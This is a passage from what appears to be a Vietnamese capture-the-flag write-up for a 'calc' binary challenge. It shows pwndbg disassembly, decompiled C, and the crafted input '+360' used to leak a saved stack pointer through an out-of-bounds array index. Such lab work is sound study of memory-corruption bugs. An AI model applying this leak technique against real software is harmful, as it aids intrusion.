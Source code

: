 ```shell
   0x8049379 <calc>       push   ebp
   0x804937a <calc+1>     mov    ebp, esp
   0x804937c <calc+3>     sub    esp, 0x5b8
 ► 0x8049382 <calc+9>     mov    eax, dword ptr gs:[0x14]
   0x8049388 <calc+15>    mov    dword ptr [ebp - 0xc], eax
```

Lúc này ở hàm calc, ebp_calc => ebp_main. nên là ta tính được offset giữa 2 thằng là 32. thêm nữa:

```c
unsigned int calc()
{
  int v1[101]; // [esp+18h] [ebp-5A0h] BYREF
  char s[1024]; // [esp+1ACh] [ebp-40Ch] BYREF
  unsigned int v3; // [esp+5ACh] [ebp-Ch]
  ....

```

Cùng nhìn lại trong hàm calc là có khai báo biến v1[] tại địa chỉ **ebp - 5A0**

Mà 5A0 = 360, tức là v1[0] có địa chỉ là = **ebp-360**, Vậy thì v1[360] = ebp_ebp. ta sẽ leak thử xem sao.

Và quả thật như vậy 

```shell
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────
 ► 0x80493ed <calc+116>    call   parse_expr                     <parse_expr>
        arg[0]: 0xffffce0c ◂— '+360'
        arg[1]: 0xffffcc78 ◂— 0x0
        arg[2]: 0x0
        arg[3]: 0x0

   0x80493f2 <calc+121>    test   eax, eax
   0x80493f4 <calc+123>    je     calc+175                     <calc+175>

   0x80493f6 <calc+125>    mov    eax, dword ptr [ebp - 0x5a0]
   0x80493fc <calc+131>    sub    eax, 1
   0x80493ff <calc+134>    mov    eax, dword ptr [ebp + eax*4 - 0x59c]
   0x8049406 <calc+141>    mov    dword ptr [esp + 4], eax
   0x804940a <calc+145>    mov    dword ptr [esp], 0x80bf804
   0x8049411 <calc+152>    call   printf                     <printf>

   0x8049416 <calc+157>    mov    eax, dword ptr [stdout]       <0x80ec4c0>
   0x804941b <calc+162>    mov    dword ptr [esp], eax
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ esp 0xffffcc60 —▸ 0xffffce0c ◂— '+360'
01:0004│     0xffffcc64 —▸ 0xffffcc78 ◂— 0x0
02:0008│     0xffffcc68 ◂— 0x0
... ↓        5 skipped
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► 0 0x80493ed calc+116
   1 0x8049499 main+71
   2 0x804967a __libc_start_main+458
   3 0x8048d4b _start+33
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> c
Continuing.
-11720

```
